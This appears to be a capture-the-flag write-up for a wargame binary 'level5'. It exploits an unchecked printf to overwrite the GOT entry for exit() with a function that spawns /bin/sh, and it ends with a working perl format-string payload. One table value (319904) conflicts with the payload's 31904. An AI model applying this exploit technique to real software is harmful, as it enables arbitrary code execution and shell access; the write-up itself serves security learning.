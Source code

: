 # Level 5

## ./level5 code:

```c
//----- (080484A4) --------------------------------------------------------
void __noreturn o()
{
  system("/bin/sh");
  _exit(1);
}
// 80484A4: using guessed type void __noreturn o();

//----- (080484C2) --------------------------------------------------------
void __noreturn n()
{
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  exit(1);
}

//----- (08048504) --------------------------------------------------------
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  n();
}
```

## goal:

use the printf(s) to change in the GOT table exit() address by o() address. We will write the o() address where exit() address is stored.

## o() address:

on the local computer:

```sh
$ nm level5
    [...]
08048504 T main
080484c2 T n
080484a4 T o
         U printf@@GLIBC_2.0
080483f0 T _start
08049848 B stdin@@GLIBC_2.0
         U system@@GLIBC_2.0
```

o() address is 0x080484a4

## exit() address in the GOT table

```sh
$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

exit() address is located at 0x08049838

## finding the buffer offset

```sh
$ ./level5 <<< $(perl -e 'print "AAAA" . ".%08x" x 7')
AAAA.00000200.b7fd1ac0.b7ff37d0.41414141.3830252e.30252e78.252e7838
```

buffer offset is 4

## %hn magic number

0x080484a4 will be written in 2 blocks: 0804, 84a4 at address 0x0804983a and 0x08049838 (little endian)

| format | high |    low |
| :----: | :--: | -----: |
|  hex   | 0804 |   84a4 |
|  dec   | 2052 |  33956 |
| offset |  -8  |  -2052 |
| magic  | 2044 | 319904 |

## the hack:

(perl -e 'print "\x3a\x98\x04\x08" . "\x38\x98\x04\x08" . "%2044x%4\$hn" . "%31904x%5\$hn"' ; cat) | ./level5
